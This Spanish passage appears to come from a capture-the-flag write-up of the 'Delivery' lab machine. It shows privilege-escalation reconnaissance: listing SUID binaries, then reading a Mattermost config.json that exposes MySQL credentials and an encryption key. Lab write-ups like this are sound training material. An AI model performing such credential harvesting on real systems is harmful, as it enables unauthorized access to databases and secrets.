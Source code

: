 ## Escalada de privilegios

No vamos a abusar del **pkexec**

```bash
maildeliverer@Delivery:/$ find \-perm -4000 2>/dev/null
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/lib/eject/dmcrypt-get-device
./usr/lib/openssh/ssh-keysign
./usr/bin/pkexec
./usr/bin/newgrp
./usr/bin/sudo
./usr/bin/gpasswd
./usr/bin/su
./usr/bin/chfn
./usr/bin/mount
./usr/bin/passwd
./usr/bin/chsh
./usr/bin/umount
./usr/bin/fusermount
maildeliverer@Delivery:/$ 

```

Si nos vamos a esta ruta encontramos un archivo de configuración

```bash
maildeliverer@Delivery:/opt/mattermost/config$ ls
README.md  cloud_defaults.json  config.json
maildeliverer@Delivery:/opt/mattermost/config$ cat config.json 
```

Ademas encontramos contraseñas para la base de datos

```bash
 },
    "SqlSettings": {
        "DriverName": "mysql",
        "DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
        "DataSourceReplicas": [],
        "DataSourceSearchReplicas": [],
        "MaxIdleConns": 20,
        "ConnMaxLifetimeMilliseconds": 3600000,
        "MaxOpenConns": 300,
        "Trace": false,
        "AtRestEncryptKey": "n5uax3d4f919obtsp1pw1k5xetq1enez",
        "QueryTimeout": 30,
        "DisableDatabaseSearch": false
    },
```

Esta corriendo `mysql` en local es por eso que **Nmap** no lo reporto
